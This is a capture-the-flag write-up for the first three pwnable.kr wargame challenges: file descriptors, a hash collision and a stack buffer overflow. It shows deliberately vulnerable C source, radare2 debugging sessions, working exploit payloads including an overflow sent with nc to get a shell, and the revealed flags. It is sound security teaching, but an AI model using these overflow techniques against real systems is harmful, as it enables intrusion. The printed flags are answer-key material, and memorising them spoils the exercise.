



Write-up of the challenges at [https://pwnable.kr](https://pwnable.kr)

## Challenge 1 - FD

This challenge is about file descriptors.  
The explanation says:  

>  Mommy! what is a file descriptor in Linux?  

Then we are given only the command:
 
> ssh fd@pwnable.kr -p2222 (pw:guest) 

SSHing into the server and running ls -la gives us:

```console
user@user:~$ ssh fd@pwnable.kr -p2222
fd@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have new mail.
Last login: Fri Apr  2 13:44:10 2021 from X.X.X.X 
fd@pwnable:~$ ls -la
total 40
drwxr-x---   5 root   fd   4096 Oct 26  2016 .
drwxr-xr-x 115 root   root 4096 Dec 22 08:10 ..
d---------   2 root   root 4096 Jun 12  2014 .bash_history
-rw-------   1 root   root  128 Oct 26  2016 .gdb_history
dr-xr-xr-x   2 root   root 4096 Dec 19  2016 .irssi
drwxr-xr-x   2 root   root 4096 Oct 23  2016 .pwntools-cache
-r-sr-x---   1 fd_pwn fd   7322 Jun 11  2014 fd
-rw-r--r--   1 root   root  418 Jun 11  2014 fd.c
-r--r-----   1 fd_pwn root   50 Jun 11  2014 flag
fd@pwnable:~$ id
uid=1002(fd) gid=1002(fd) groups=1002(fd)
fd@pwnable:~$ 
```
We can see that the flag file is owned by the user `fd_pawn` and group `root` and we are user `fd` and group `fd` and therefore don't have permissions to read the flag file. 
However we have executable permission on the file fd and the set-uid flag is set with the owner being `fd_pawn`, we also have read access to the file `fd.c`, presumably the source code for the executable `fd`.
Let's have a look at fd.c:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```

We can see it expects a number to be passed in.
0x1234 (Decimal: 4660) is then subtracted from this number.
The result is then used as the file descriptor to read the file into buff.
This is then compared to the string `"LETMEWIN\n"` and if it is a match the contents of the flag file are printed.

Looking up POSIX file descriptors, 0 is the file descriptor value for standard input. 

So it looks like we need to execute fd with the number 4660 as the first argument and then pass the string `LETMEWIN` to the program via stdin. 

Doing this gives the following output:
```console
fd@pwnable:~$ printf 'LETMEWIN\n' | ./fd 4660
good job :)
mommy! I think I know what a file descriptor is!!
fd@pwnable:~$ 
```

And we can see that the contents of flag is:

> mommy! I think I know what a file descriptor is!!

Entering this into the website confirms it is the correct flag.

## Challenge 2 - Collision

SSHing in and running `ls -la` and `id` we see it's a very similar scenario as challenge 1:

```console
user@user:~$ ssh col@pwnable.kr -p2222
col@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|
                                                                     
- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
You have mail.
Last login: XXX XXX  X XX:XX:XX XXX from X.X.X.X
col@pwnable:~$ ls -la
total 36
drwxr-x---   5 root    col     4096 Oct 23  2016 .
drwxr-xr-x 115 root    root    4096 Dec 22 08:10 ..
d---------   2 root    root    4096 Jun 12  2014 .bash_history
dr-xr-xr-x   2 root    root    4096 Aug 20  2014 .irssi
drwxr-xr-x   2 root    root    4096 Oct 23  2016 .pwntools-cache
-r-sr-x---   1 col_pwn col     7341 Jun 11  2014 col
-rw-r--r--   1 root    root     555 Jun 12  2014 col.c
-r--r-----   1 col_pwn col_pwn   52 Jun 11  2014 flag
col@pwnable:~$ id
uid=1005(col) gid=1005(col) groups=1005(col)
col@pwnable:~$ 
``` 

So lets look at `col.c`: 

```c
#include <stdio.h>
#include <string.h>
unsigned long hashcode = 0x21DD09EC;
unsigned long check_password(const char* p){
	int* ip = (int*)p;
	int i;
	int res=0;
	for(i=0; i<5; i++){
		res += ip[i];
	}
	return res;
}

int main(int argc, char* argv[]){
	if(argc<2){
		printf("usage : %s [passcode]\n", argv[0]);
		return 0;
	}
	if(strlen(argv[1]) != 20){
		printf("passcode length should be 20 bytes\n");
		return 0;
	}

	if(hashcode == check_password( argv[1] )){
		system("/bin/cat flag");
		return 0;
	}
	else
		printf("wrong passcode.\n");
	return 0;
}
```

First we see it expects 20 bytes to be passed as the first parameter.
These 20 bytes are then passed to `check_password` and compared with the unsigned long `0x21DD09EC`.
Looking at the `check_password` function we can see it divides the 20 bytes into 5 4-byte ints and then sums these 5 values.

So we need to find 5 numbers which sum to 0x21DD09EC (Decimal: 568134124) we also need to make sure that the 32 bit signed integer representation of the 5 numbers contains no null bytes.

Lets just take a guess and try 0x01010101. This is 16843009 in decimal, and:

$$ 568134124 - (4*16843009) = 500762088 $$

Converting 500762088 to hex we see it is 0x1DD905E8. No null bytes! These values should work.

It does not matter what order we pass in the 5 4-byte blocks but the byte order of each block needs to be reversed. 
Executing col and passing in the byte array gives:

```console
col@pwnable:~$ ./col $(printf "%b" '\xE8\x05\xD9\x1D\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x0A')
daddy! I just managed to create a hash collision :)
col@pwnable:~$ 
```

And we can see that the contents of flag is 

> daddy! I just managed to create a hash collision :)

Entering this into the website we are told it is correct.

## Challenge 3 - Buffer Overflow

This challenge is obviously about exploiting a buffer overflow voulnrability. 
We are given two files to download, an executable and the source code and told it is running on `pwnable.kr:9000` 
Lets look at the source code `bof.c` first:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The main function calls a function `func` with value `0xdeadbeef`, func then allocates 32 bytes on the stack and then reads from stdin into this buffer using the gets function.
The value passed into func is then compared with the constant `0xcafebabe` and if it is equal executes a shell, otherwise it prints out `Nah..`. 
Gets will continue reading into memory until it reaches a null terminator so it looks like we need to input enough bytes so that gets reads in past the end of the 32 byte buffer and overwrites the key value (0xdeadbeef) with the value 0xcafebabe.

Lets have a look at the compiled binary in radare to get a better idea of what is going on.

Open the binary in radare2 in debugger mode using:

```console
$ r2 -d bof
Process with PID 7267 started...
= attach 7267 7267
bin.baddr 0x56623000
Using 0x56623000
asm.bits 32
glibc.fc_offset = 0x00148
```

We the run `aaa` and `afl` to analyze the binary and list the functions.
We can see the main and func functions so we will place breakpoints on these using the `db` command and then run the program with `dc`.

```console
[0xf7fa7c70]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[0xf7fa7c70]> afl
0x56623530    1 49           entry0
0x56623562    1 4            fcn.56623562
0x56623520    1 6            sym.imp.__libc_start_main
0x5662368a    1 28           main
0x5662362c    6 94           sym.func
0x56623570    8 128          sym.__do_global_dtors_aux
0x566235f0    4 55           sym.frame_dummy
0x56623627    1 4            sym.__i686.get_pc_thunk.bx
0x56623730    4 56           sym.__do_global_ctors_aux
0x56623720    1 2            sym.__libc_csu_fini
0x56623768    1 26           sym._fini
0x566236b0    4 97           sym.__libc_csu_init
0x56623474    3 46           sym._init
0x56623510    1 6            loc.imp.__gmon_start__
0x566234c0    1 6            sym.imp.gets
0x566234d0    1 6            sym.imp.__stack_chk_fail
0x566234e0    1 6            sym.imp.__cxa_finalize
0x566234f0    1 6            sym.imp.puts
0x56623500    1 6            sym.imp.system
[0xf7fa7c70]> db main
[0xf7fa7c70]> db sym.func
[0xf7fa7c70]> dc
hit breakpoint at: 0x5662368a
[0x5662368a]> 
```

We can see we hit the breakpoint on the main function.
Use `V!` to switch to visual mode:

[](01.png)

After stepping through and into the func function we can see both the 0xdeadbeef and return address have been pushed onto the stack.

[](02.png)

Stepping through some more, ebp is pushed onto the stack setting up the new stack frame and 48 is subtracted from esp, 12 for the 3 4-byte variables pushed onto the stack and 32 for the 32-byte buffer `overflowme`.
Eventually we step over the system call to gets and we can see that it has been passed the memory address 0xff949dbc to begin reading in from stdin.
Directly after the call to gets, we see the next instruction is a comparison between the variable `arg_8h` and the constant `0xcafebabe`.

[](03.png)

We can inspect the variable by running the following commands:

```console
:> afv
var int32_t var_2ch @ ebp-0x2c
var int32_t var_ch @ ebp-0xc
arg int32_t arg_8h @ ebp+0x8
:> afvd arg_8h
pf d @ebp+0x8
:> pf x @ebp+0x8
0xfff91cc0 = 0xdeadbeef
:> 
```  

And subtracting the address of the `key` variable and the address passed to gets:

```console
user@user:~$ python -c 'print(0xff949df0 - 0xff949dbc)'
52
```

We can see that they are 52 bytes apart. So in order to make the comparison return true we must send 52 bytes to stdin followed by the 4-byte value `0xcafebabe` in reverse byte order.
Lets try it locally before attempting to send anything to the server.
Create the payload:

```console
$ python -c 'import sys; sys.stdout.buffer.write(b"\x61"*52+b"\xbe\xba\xfe\xca\x0a")' > input.txt 
```

And create a rarun2 profile file setting stdin to the `input.txt` file we just created: 

```bash
#!/usr/bin/env rarun2
stdin=input.txt
```

Now we exit radare and restart it specifying the rr2 file:

```console
$ r2 -e dbg.profile=input.rr2 -d bof
```

Now after stepping through the program we see gets has overwritten the stack beyond the 32 byte buffer and overwritten the `0xdeadbeef` value with `0xcafebabe`

[](04.png)

Executing the CMP instruction we see this time it now evaluates to true. Running the command `dr 1` we can see the zero flag is set and the JNE instruction does not jump and the syscall to execute the `/bin/sh` command is called.

[](05.png)

Looks good, now lets try sending the payload to the server location they gave (`pwnable.kr:9000`)

```console
user@user:~$ cat input.txt - | nc pwnable.kr 9000
ls -la
total 15820
drwxr-x---   3 root bof      4096 Oct 23  2016 .
drwxr-xr-x 115 root root     4096 Dec 22 08:10 ..
d---------   2 root root     4096 Jun 12  2014 .bash_history
-r-xr-x---   1 root bof      7348 Sep 12  2016 bof
-rw-r--r--   1 root root      308 Oct 23  2016 bof.c
-r--r-----   1 root bof        32 Jun 11  2014 flag
-rw-------   1 root root 16159015 Apr  3 02:21 log
-rw-r--r--   1 root root        0 Oct 23  2016 log2
-rwx------   1 root root      760 Sep 11  2014 super.pl
cat flag
daddy, I just pwned a buFFer :)
```

We successfully get a shell and can run `ls`. We see there is a file called `flag`, outputting the contents of this file gives `daddy, I just pwned a buFFer :)` and putting this into the website confirms this is the correct flag.

